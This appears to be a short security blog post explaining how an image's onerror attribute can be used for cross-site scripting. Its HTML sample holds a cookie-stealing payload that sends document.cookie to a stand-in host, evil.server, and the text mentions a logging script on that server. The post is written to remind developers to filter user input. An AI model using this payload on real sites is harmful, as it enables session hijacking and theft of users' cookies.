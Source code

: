 ```yaml
---
layout: post
title: XSS with Img OnError attribute
tags:
- javascript
- PHP
- security
---
```


So much of my time is spent worrying over the src or href tags on images and links - that I sometimes forget about the other attributes.

Imagine being able to make an image which has no black-flagged content in the src but yet can still make a remote request, logging the user's cookie information?  Thats right - this can be done - using the 'onerror' attribute of an image.

What you need to do is to create an image link that is obviously broken or empty.  Then, javascript handles such events by throwing an error for that element.  Add an item to the onerror attribute to request a remote URL as your images src - which you add on document.cookie.  The remote script logs all requests, and then displays an image.

Check out the code below:

Source page without proper filtering:

```html
<html>
    <body>
        <h1>test</h1>
        <h2>asdf</h2>
        <img onerror="this.src='http://evil.server/exploit.php?'+document.cookie" src=""></img>
    </body>
</html>
```

Then, on evil.server, place your image.  Finally, top it off with the following code in exploit.php

Easy as that.  Just another reminder to properly filter your use submitted content.
